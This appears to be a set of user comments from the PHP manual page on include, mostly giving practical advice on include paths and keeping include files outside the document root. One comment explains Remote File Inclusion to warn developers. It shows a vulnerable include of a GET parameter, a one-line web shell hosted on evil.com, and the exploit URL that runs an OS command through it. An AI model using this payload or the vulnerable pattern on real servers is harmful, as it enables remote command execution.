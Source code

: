 # Security warning




<div class="phpcode"><span class="html">
This might be useful:<br><span class="default">&lt;?php<br></span><span class="keyword">include </span><span class="default">$_SERVER</span><span class="keyword">[</span><span class="string">&apos;DOCUMENT_ROOT&apos;</span><span class="keyword">].</span><span class="string">&quot;/lib/sample.lib.php&quot;</span><span class="keyword">;<br></span><span class="default">?&gt;<br></span>So you can move script anywhere in web-project tree without changes.</span>
</div>
  

#


<div class="phpcode"><span class="html">
If you want to have include files, but do not want them to be accessible directly from the client side, please, please, for the love of keyboard, do not do this:<br><br><span class="default">&lt;?php<br><br></span><span class="comment"># index.php<br></span><span class="default">define</span><span class="keyword">(</span><span class="string">&apos;what&apos;</span><span class="keyword">, </span><span class="string">&apos;ever&apos;</span><span class="keyword">);<br>include </span><span class="string">&apos;includeFile.php&apos;</span><span class="keyword">;<br><br></span><span class="comment"># includeFile.php<br><br>// check if what is defined and die if not<br><br></span><span class="default">?&gt;<br></span><br>The reason you should not do this is because there is a better option available. Move the includeFile(s) out of the document root of your project. So if the document root of your project is at &quot;/usr/share/nginx/html&quot;, keep the include files in &quot;/usr/share/nginx/src&quot;.<br><br><span class="default">&lt;?php<br><br></span><span class="comment"># index.php (in document root (/usr/share/nginx/html))<br><br></span><span class="keyword">include </span><span class="default">__DIR__ </span><span class="keyword">. </span><span class="string">&apos;/../src/includeFile.php&apos;</span><span class="keyword">;<br><br></span><span class="default">?&gt;<br></span><br>Since user can&apos;t type &apos;your.site/../src/includeFile.php&apos;, your includeFile(s) would not be accessible to the user directly.</span>
</div>
  

#


<div class="phpcode"><span class="html">
Before using php&apos;s include, require, include_once or require_once statements, you should learn more about Local File Inclusion (also known as LFI) and Remote File Inclusion (also known as RFI).<br><br>As example #3 points out, it is possible to include a php file from a remote server.<br><br>The LFI and RFI vulnerabilities occur when you use an input variable in the include statement without proper input validation.&#xA0; Suppose you have an example.php with code:<br><br><span class="default">&lt;?php<br></span><span class="comment">// Bad Code<br></span><span class="default">$path </span><span class="keyword">= </span><span class="default">$_GET</span><span class="keyword">[</span><span class="string">&apos;path&apos;</span><span class="keyword">];<br>include </span><span class="default">$path </span><span class="keyword">. </span><span class="string">&apos;example-config-file.php&apos;</span><span class="keyword">;<br></span><span class="default">?&gt;<br></span><br>As a programmer, you might expect the user to browse to the path that you specify.<br><br>However, it opens up an RFI vulnerability.&#xA0; To exploit it as an attacker, I would first setup an evil text file with php code on my evil.com domain.<br><br>evil.txt<br><span class="default">&lt;?php </span><span class="keyword">echo </span><span class="default">shell_exec</span><span class="keyword">(</span><span class="default">$_GET</span><span class="keyword">[</span><span class="string">&apos;command&apos;</span><span class="keyword">]);</span><span class="default">?&gt;<br></span><br>It is a text file so it would not be processed on my server but on the target/victim server.&#xA0; I would browse to:<br>h t t p : / / w w w .example.com/example.php?command=whoami&amp; path= h t t p : / / w w w .evil.com/evil.txt%00<br><br>The example.php would download my evil.txt and process the operating system command that I passed in as the command variable.&#xA0; In this case, it is whoami.&#xA0; I ended the path variable with a %00, which is the null character.&#xA0; The original include statement in the example.php would ignore the rest of the line.&#xA0; It should tell me who the web server is running as.<br><br>Please use proper input validation if you use variables in an include statement.</span>
</div>
  

#


<div class="phpcode"><span class="html">
I cannot emphasize enough knowing the active working directory. Find it by: echo getcwd();<br>Remember that if file A includes file B, and B includes file C; the include path in B should take into account that A, not B, is the active working directory.</span>
</div>
  

#


<div class="phpcode"><span class="html">
As a rule of thumb, never include files using relative paths. To do this efficiently, you can define constants as follows:<br><br>----<br><span class="default">&lt;?php </span><span class="comment">// prepend.php - autoprepended at the top of your tree<br></span><span class="default">define</span><span class="keyword">(</span><span class="string">&apos;MAINDIR&apos;</span><span class="keyword">,</span><span class="default">dirname</span><span class="keyword">(</span><span class="default">__FILE__</span><span class="keyword">) . </span><span class="string">&apos;/&apos;</span><span class="keyword">);<br></span><span class="default">define</span><span class="keyword">(</span><span class="string">&apos;DL_DIR&apos;</span><span class="keyword">,</span><span class="default">MAINDIR </span><span class="keyword">. </span><span class="string">&apos;downloads/&apos;</span><span class="keyword">);<br></span><span class="default">define</span><span class="keyword">(</span><span class="string">&apos;LIB_DIR&apos;</span><span class="keyword">,</span><span class="default">MAINDIR </span><span class="keyword">. </span><span class="string">&apos;lib/&apos;</span><span class="keyword">);<br></span><span class="default">?&gt;<br></span>----<br><br>and so on. This way, the files in your framework will only have to issue statements such as this:<br><br><span class="default">&lt;?php<br></span><span class="keyword">require_once(</span><span class="default">LIB_DIR </span><span class="keyword">. </span><span class="string">&apos;excel_functions.php&apos;</span><span class="keyword">);<br></span><span class="default">?&gt;<br></span><br>This also frees you from having to check the include path each time you do an include.<br><br>If you&apos;re running scripts from below your main web directory, put a prepend.php file in each subdirectory:<br><br>--<br><span class="default">&lt;?php<br></span><span class="keyword">include(</span><span class="default">dirname</span><span class="keyword">(</span><span class="default">dirname</span><span class="keyword">(</span><span class="default">__FILE__</span><span class="keyword">)) . </span><span class="string">&apos;/prepend.php&apos;</span><span class="keyword">);<br></span><span class="default">?&gt;<br></span>--<br><br>This way, the prepend.php at the top always gets executed and you&apos;ll have no path handling headaches. Just remember to set the auto_prepend_file directive on your .htaccess files for each subdirectory where you have web-accessible scripts.</span>
</div>
  

#

[Official documentation page](https://www.php.net/manual/en/function.include.php)

**[To root](/)**